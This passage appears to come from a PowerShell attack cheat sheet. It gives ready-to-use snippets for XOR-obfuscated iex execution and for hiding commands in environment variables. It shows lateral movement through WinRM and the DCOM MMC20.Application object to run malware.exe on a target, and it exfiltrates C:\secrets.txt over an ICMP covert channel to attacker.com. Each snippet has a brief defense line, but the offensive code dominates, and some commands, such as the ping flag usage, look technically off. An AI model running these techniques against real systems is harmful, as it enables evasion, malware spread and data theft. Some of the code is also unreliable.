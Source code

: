 
### **2. Evasion & Obfuscation**
#### **A. XOR Obfuscation with Dynamic Decryption**
```powershell
# XOR-encrypt and execute a payload
$key = 0x55
$encrypted = [System.Text.Encoding]::UTF8.GetBytes('malicious code') | % { $_ -bxor $key }
$decrypted = $encrypted | % { $_ -bxor $key }
iex ([System.Text.Encoding]::UTF8.GetString($decrypted))
```
- **Purpose**: Evades signature-based detection.
- **Defense**: Enable **AMSI** and script block logging.

#### **B. Environment Variable Obfuscation**
```powershell
# Hide commands in environment variables
$env:EvilVar = 'malicious code'; iex $env:EvilVar
```
- **Purpose**: Avoids hardcoding commands in scripts.
- **Defense**:  
  ```powershell
  # Monitor env variables
  Get-ChildItem Env: | Where-Object { $_.Value -match 'malicious' }
  ```

---

### **3. Lateral Movement**
#### **A. PowerShell Remoting (WinRM)**
```powershell
# Execute code on a remote machine
Invoke-Command -ComputerName TARGET -ScriptBlock { Start-Process C:\malware.exe } -Credential (Get-Credential)
```
- **Purpose**: Spread malware via trusted administrative channels.
- **Defense**:  
  ```powershell
  # Disable WinRM
  Disable-PSRemoting -Force
  ```

#### **B. DCOM Lateral Movement**
```powershell
# Abuse MMC20.Application COM object
$com = [System.Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "TARGET"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c malware.exe", "7")
```
- **Purpose**: Executes code remotely via DCOM.
- **Defense**: Disable DCOM via `dcomcnfg`.

---

### **4. Data Exfiltration**
#### **A. ICMP Covert Channel**
```powershell
# Exfiltrate data via ICMP packets
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))
ping -n 1 -l 1000 -w 1 attacker.com -p $data
```
- **Purpose**: Bypass firewalls using "benign" ICMP traffic.
- **Defense**: Block oversized ICMP payloads.
